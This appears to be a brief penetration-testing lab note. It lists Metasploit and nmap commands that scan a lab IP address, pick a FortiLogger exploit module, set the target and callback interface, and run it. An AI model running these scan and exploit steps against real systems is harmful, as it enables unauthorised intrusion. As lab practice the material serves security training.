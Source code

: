 [[metasploit nmap]]
```shell
sudo msfdb

db_nmap -A -T5 10.129.62.196
search FortiLogger

use 0

set rhosts <ip>
set lhost tun0
run
```


